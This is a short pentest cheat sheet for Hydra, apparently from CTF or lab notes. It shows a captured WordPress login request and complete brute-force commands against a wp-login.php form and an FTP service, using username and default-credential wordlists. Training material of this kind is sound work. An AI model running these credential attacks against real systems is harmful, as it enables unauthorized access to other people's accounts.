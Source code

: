 # Hydra

## Flags
```
-t  Number of parallel connections per target
-vV Sets verbose mode to very verbose, shows the login+pass combination for each attempt

```
## Bruteforce HTTP Form

To bruteforce a Login catch the request with burpsuite and for a hydra command.

Burpsuite Request
```
POST /wp-login.php HTTP/1.1
Host: 10.38.1.111
User-Agent: Mozilla/5.0 (Windows NT 10.0; rv:91.0) Gecko/20100101 Firefox/91.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Content-Type: application/x-www-form-urlencoded
Content-Length: 101
Origin: http://10.38.1.111
DNT: 1
Connection: close
Referer: http://10.38.1.111/wp-login.php
Cookie: s_fid=68C1BD34EC9C4864-1C81564B06522EDF; s_nr=1643752744400; s_cc=true; s_sq=%5B%5BB%5D%5D; wordpress_test_cookie=WP+Cookie+check
Upgrade-Insecure-Requests: 1

log=admin&pwd=123456&wp-submit=Log+In&redirect_to=http%3A%2F%2F10.38.1.111%2Fwp-admin%2F&testcookie=1
```

Command:
```console
root@machine:~$ hydra -vV -L fsocity.dic.uniq -p wedontcare 192.168.2.4 http-post-form '/wp-login.php:log=^USER^&pwd=^PASS^&wp-submit=Log+In:F=Invalid username'

Options:
    -vV     verbose mode
    -L      use wordlist for Username
    -p      use given password
    -http-post-form     request type

Payload:
    '/wp-login.php:log=^USER^&pwd=^PASS^&wp-submit=Log+In:F=Invalid username'
```

`^USER^` & `^PASS^` are used as placeholder. 
`"F=Invalid username"` is the string for the error message.

## Bruteforce FTP
```
root@machine:~$ hydra -v -C /usr/share/seclists/Passwords/Default-Credentials/ftp-betterdefaultpasslist.txt -f 10.0.0.3 ftp

Options
    -v verbose mode.
    -C <user:pass file>: colon-separated “login:pass” format.
    -f exit after the first found user/password pair.
```